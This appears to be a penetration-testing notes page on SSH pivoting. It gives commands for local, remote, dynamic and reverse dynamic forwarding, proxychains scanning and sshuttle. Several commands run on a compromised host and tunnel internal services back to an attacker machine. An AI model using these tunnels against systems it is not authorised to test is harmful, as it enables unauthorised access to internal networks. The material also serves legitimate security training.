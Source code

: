 # ⭕ SSH Forwarding

## <mark style="color:red;">Local Port Forwarding</mark>

**Forwarding a port from attackers machine to a port on the compromised machine to access a specific port of a target host in the internal network.**

{% hint style="info" %}
No root access needed on compromised machine.
{% endhint %}

#### run this command on your attacking machine:

```
ssh -N -L localhost:localport:targethost:targetport [username@middlehost]
```

* localhost : attackers machine local ip address, usually use 0.0.0.0 for all interfaces.
* local port : port on attackers machine, will be used for connection later
* target host / port : ip and port of the target machine inside the internal network that we want to access
* middlehost : the compromised machine that is going to be used as a pivot point.

#### example for smb port 445:

```
ssh -N -L 0.0.0.0:445:192.168.1.110:445 student@10.11.0.128
```

test the connection:

```
nmap  127.0.0.1 -p 445
```

## <mark style="color:red;">Remote Port Forwarding</mark>

#### The reverse of local port forwarding. a port is opened on the compromised remote machine and the traffic sent to that port is forwarded to attackers local port (ssh client).

{% hint style="danger" %}
**SSH port forwards can be run as non-root users as long as we only bind unused non-privileged local ports (above 1024).**

SSH configurations on the attacker machine must allow remote connection to the given user and you have to enter the user password so **don't use the root account on your machine if you don't trust the middle host.**

**I will explain how to secure remote port forwarding connections in a bit.**
{% endhint %}

#### Run this command on the middle host (compromised target).

```
ssh -N -R attackerhost:attackerport:middlehost:middleport [username@attackerhost]
```

{% hint style="info" %}
Port numbers don't have to be the same here.
{% endhint %}

example for MySQL service port 3306:

```
ssh -N -R 10.11.0.4:2221:127.0.0.1:3306 kali@10.11.0.4
```

test from attacker machine:

```
nmap -sV 127.0.0.1 -p 2221
```

### <mark style="color:orange;">Secure Remote Port Forwarding</mark>

In situations when you dont trust the middle host (compromised pivot machine) its a huge risk to your security if you use the root account or enter the password in the ssh connection. also if you are running the command in a non-interactive shell you will run into a hurdle .

#### to avoid entering our password and having problems wtih non-interactive shells we can use a few ssh command options.

#### first create a pair of ssh keys to use instead of plain-text password:

```
# on compromised middle host enter:

mkdir keys
cd keys
ssh-keygen
```

#### now the new public key needs to be entered in our attacker host’s authorized\_keys file for the attacker user:

```
# on compromised middle host enter:
cat id_rsa.pub

# copy the public key to your kali machine authorized_keys file with the security options
```

#### To avoid potential security issues we can tighten the ssh configuration only permitting access coming from the middle host IP, then we need to ignore any commands that the user supplies with ssh command options. we also need to prevent agent and x11 forwarding with no-agent-forwarding and no-x11-forwarding options. finally we want to prevent the user from being allocated a tty device with the no-tty option

the final **`~/.ssh/authorized_keys`** file on attacker machine will be like this:

![](<../../.gitbook/assets/image (265).png>)

#### This entry allows the owner of the private key (middle host) to log in to our Kali machine but prevents them from running commands and only allows for port forwarding.

then we have to add some more ssh options:

**-f :** go to background

**-N :** not running commands

**UserKnownHostsFile=/dev/null :** prevent ssh from attempting to save the host key by sending the output to /dev/null

**StrictHostKeyChecking=no** : don't prompt us to accept the host key

#### the final ssh command:

```
ssh -f -N -R attackerhost:attackerport:middlehost:middleport -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i keys/id_rsa user@attackerhost
```

## <mark style="color:red;">Dynamic Forwarding</mark>

#### Allows us to set a local listening port and have it tunnel incoming traffic to any remote destination through the use of a proxy. this way we can use all of the ports from the pivot machine.

{% hint style="warning" %}
For this technique to work, we need proxychains or other proxy tools.
{% endhint %}

the syntax is like this:

```
ssh -N -D <attackerhost>:<attackerport> <username>@<middle host>
```

#### With the above syntax in mind, we can create a local SOCKS4 application proxy ( -N -D ) on our attacker machine on TCP port 8080 ( 127.0.0.1:8080 ), which will tunnel all incoming traffic to any host in the target network, through the compromised pivot machine, which we log into.

example:

```
sudo ssh -N -D 127.0.0.1:8080 student@10.11.0.128
```

#### Now we must somehow direct our reconnaissance and attack tools to use this proxy. We can run any network application through HTTP, SOCKS4, and SOCKS5 proxies with the help of ProxyChains.

#### we simply edit the main configuration file `/etc/proxychains.conf` and add our SOCKS4 proxy to it:

![](<../../.gitbook/assets/image (264) (1).png>)

{% hint style="warning" %}
Make sure that there are no ther proxy IPs in proxychains config file and the specified port is the same as the port in the SSH command.
{% endhint %}

{% hint style="info" %}
By default, ProxyChains will attempt to read its configuration file first from the current directory, then from the user’s $(HOME)/.proxychains directory, and finally from /etc/proxychains.conf. This allows us to run tools through multiple dynamic tunnels, depending on our needs. we can use the -f options with proxychains to specify the path to the configuration file we want to use.
{% endhint %}

#### To run our tools through our SOCKS4 proxy, we prepend each command with proxychains

```
proxychains nmap -sT -Pn -n 192.168.1.110  # must use -sT option
```

{% hint style="warning" %}
**In a dynamic port forwarding we have to use -sT option with nmap to run a full TCP connect scan. other scan methods dont work since we are using a proxy.**
{% endhint %}

## <mark style="color:red;">Reverse Dynamic Forwarding</mark>

#### as of OpenSSH version 7.6 (Released late 2017) SSH clients may generate dynamic reverse tunnels accessible to the server they connect to. What’s really cool is that you don’t need to update your server to version 7.6 before this trick will work. As long as the client supports it, the client enforces it when it completes the connection.

run this command on the compromised remote system (this looks like the remote port forwarding but by not specifying a host after the port the ssh client will create a socks proxy on attackers system):

```
ssh -f -N -R [attackers port] -o "UserKnownHostsFile=/dev/null" -o "StricktHostKeyChecking=no" -i /var/lib/mysql/.ssh/id_rsa   user@[attackers IP]
```

you can check if the port is open on attackers system:

```
netstat -tupln
# look for sshd with local address of 127.0.0.1:[attackers port]
```

​​now edit proxychains configs in /etc/proxychains.conf and add the port:

```
socks4 127.0.0.1 [attackers port]
```

now a stable tunnel is established and we can use proxychains for enumeration and connection:

```
proxychains nmap -sT -Pn [target local IP]
```

{% hint style="warning" %}
SOCKS proxy needs full TCP connection, we cant use other scanning techniques, ICMP can not get through either. use -Pn option.
{% endhint %}

## <mark style="color:red;">SSHuttle</mark>

```
# Transparent proxy over SSH

# Forwarding traffic through the pivot
# It will then auto create necessary iptables rules
sshuttle -r user@pivoting_machine x.x.x.x/24

# You can also let sshuttle detect networks based on the target
# -x == exclude some network to not transmit over the tunnel
sshuttle -vNr user@pivoting_machine -x x.x.x.x.x/24
```
